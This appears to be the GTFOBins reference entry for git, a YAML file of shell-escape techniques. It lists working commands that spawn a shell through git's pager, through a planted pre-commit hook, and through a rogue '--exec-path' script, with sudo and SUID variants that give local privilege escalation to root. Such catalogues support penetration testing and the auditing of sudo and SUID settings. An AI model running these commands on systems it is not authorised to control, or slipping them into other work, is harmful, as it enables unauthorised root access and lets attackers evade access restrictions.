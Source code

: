 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        git -C "$TF" commit --allow-empty -m x
  sudo:
    - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        sudo git -C "$TF" commit --allow-empty -m x
    - description: If file creation is allowed, it can be used to change Git path
      code: |
	mkdir /tmp/git
	echo '/bin/bash' > /tmp/git/git-escalation
	chmod +x /tmp/git/git-escalation
	sudo git --exec-path=/tmp/git escalation
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```

